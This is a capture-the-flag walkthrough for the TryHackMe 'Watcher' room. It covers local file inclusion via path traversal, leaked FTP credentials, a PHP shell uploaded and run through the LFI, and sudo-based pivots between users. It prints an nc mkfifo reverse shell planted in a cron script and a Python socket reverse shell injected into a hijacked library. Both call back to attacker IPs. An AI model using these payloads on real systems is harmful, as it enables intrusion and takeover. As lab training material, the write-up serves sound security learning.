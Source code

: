 # 67 - Watcher (LFI RCE, Python custom library hacking)

Room Link --> [https://tryhackme.com/room/watcher](https://tryhackme.com/room/watcher)

### Enumeration

```
nmap -Pn -n -vv 10.10.177.151 -p- -sV

21/tcp open  ftp     syn-ack vsftpd 3.0.3
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3
80/tcp open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
```

### Flag 1

Navigating to `/robots.txt`&#x20;

```
User-agent: *
Allow: /flag_1.txt
Allow: /secret_file_do_not_read.txt
```

### Flag 2

From the hint we can see a reference to LFI.

Navigating to [http://watcher.thm/post.php?post=/../../../../etc/passwd](http://watcher.thm/post.php?post=/../../../../etc/passwd)

<figure><img src=".gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We see 3 users (will, mat, toby) :(

SO i decided to use SecsLists LFI list to bruteforce and see if i can be able to read any file.

`/opt/SecLists/Fuzzing/LFI/LFI-Jhaddix.txt` .

Then i landed on this:

<figure><img src=".gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

So i tried to read this file and it worked.

Navigating to [http://watcher.thm/post.php?post=secret\_file\_do\_not\_read.txt](http://watcher.thm/post.php?post=secret\_file\_do\_not\_read.txt)

{% code overflow="wrap" %}
```bash
Hi Mat, The credentials for the FTP server are below. I've set the files to be saved to /home/ftpuser/ftp/files. Will ---------- 

# ftp crendentials
ftpuser : givemefiles777
```
{% endcode %}

<figure><img src=".gitbook/assets/image (4) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Login via ftp and got flag2

<figure><img src=".gitbook/assets/image (5) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Flag 3

#### LFI RCE via Abusing Upload Functions

This was provided as a hint --> [blog](https://outpost24.com/blog/from-local-file-inclusion-to-remote-code-execution-part-2/)

{% hint style="info" %}
Again, our goal is to upload an image with PHP commands included. We will use it to append as a comment our PHP command.
{% endhint %}

I our own case we are able to upload a php file directly from the ftp server.

<figure><img src=".gitbook/assets/image (6) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Navigate to: [http://watcher.thm/post.php?post=/home/ftpuser/ftp/files/shell.php](http://watcher.thm/post.php?post=/home/ftpuser/ftp/files/shell.php)

And i got shell.

<figure><img src=".gitbook/assets/image (7) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Flag 3

We find flag3 in `/var/www/html/more_secrets_a9f10a` dir.

### Flag 4

#### Priv Esc to Toby

`sudo -l` - we can execute all cmds as Toby.

`sudo -u toby /bin/bash` - and we are Toby.

<figure><img src=".gitbook/assets/image (8) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Flag 5

We see a cronjob running as user Mat.

We also have RW permission on the cow.sh file. So we modify it with a rev shell.

`echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.18.88.214 9001 >/tmp/f' > cow.sh`&#x20;

Setup nc and we get a shell as Mat.

<figure><img src=".gitbook/assets/image (9) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Flag 6

#### Priv Esc to Will

So `sudo -l` we can run a python script as user Will.

We found 2 scripts inside: cmd.py and will\_script.py. Reading the will\_script.py we see that it is a filter script. It restricts the user from running commands other than ls, id and cat /etc/passwd commands. It uses a python library named cmd. The library asks for a numeric entry and then it runs one of the three command mentioned earlier. Since we have library inside the same directory as the script, we can hijack the library to run a reverse shell python script.

<figure><img src=".gitbook/assets/image (6) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

we will use the echo command to insert the python reverse shell script inside the python library script is using i.e., cmd.py. After doing so, we will run a netcat listener on the same port that we mentioned inside the reverse shell script. Now all that is left is to run the python script will\_script.py as will user using sudo.

echo 'import socket,subprocess,os;s=socket.socket(socket.AF\_INET,socket.SOCK\_STREAM);s.connect(("10.10.73.100",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")' >> /home/mat/scripts/cmd.pysudo -u will /usr/bin/python3 /home/mat/scripts/will\_script.py \*

<figure><img src="https://1.bp.blogspot.com/-73AhQIG2Mqc/YKqw_dMTW0I/AAAAAAAAwE0/qKfJbi4XISs4NvslUsvYaQ-Tea4m6lLjgCLcBGAsYHQ/s16000/22.png" alt=""><figcaption></figcaption></figure>

After running the script as will user, we get back to our local machine where we ran the netcat listener earlier.

<figure><img src=".gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Priv Esc to root.

So there is a backup dir in the /opt dir. There is a ssh priv key in there it belongs to root.

Done!
